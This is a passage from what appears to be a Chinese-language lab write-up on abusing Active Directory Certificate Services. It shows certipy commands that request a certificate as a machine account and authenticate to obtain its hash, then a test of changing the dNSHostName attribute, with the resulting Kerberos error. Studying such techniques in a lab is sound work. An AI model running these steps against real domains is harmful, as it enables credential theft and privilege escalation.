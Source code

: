

![](https://img-blog.csdnimg.cn/img_convert/e05bdce10a1ac941bba74c9455334e6d.png)



         然后用machine$机器用户身份请求证书并进行kerberos认证，可以看到认证正常，获取的是machine$机器用户对应的hash。



```
certipy req -dc-ip 10.211.55.4 "xie.com/machine$:root@CA-Server.xie.com" -ca xie-CA-SERVER-CA -template Machine -debug

certipy auth -pfx machine.pfx -dc-ip 10.211.55.4 -debug
```




![](https://img-blog.csdnimg.cn/img_convert/a72934dc2ebd8723ecb8ac4baa4129a4.png)



        查看申请的证书的属性，可以看到使用者和使用者可选名称属性如下：



```
使用者：

	CN = machine.xie.com

使用者可选名称：

	DNS Name=machine.xie.com
```




![](https://img-blog.csdnimg.cn/img_convert/e0692dd800cfd151836b9ecda4d84f53.png)



### 实验三



        给machine$机器用户添加dNSHostName属性dddd.xie.com，如图所示：



![](https://img-blog.csdnimg.cn/img_convert/fb4cd992e4410801567d988b45286c93.png)



        然后用machine$机器用户身份请求证书并进行kerberos认证，可以看到生成的证书为dddd.pfx，并且可以看到认证提示报如下错误：



```
\[-\] Got error while trying to request TGT: Kerberos SessionError: KDC\_ERR\_C\_PRINCIPAL\_UNKNOWN(Client not found in Kerberos database)
```
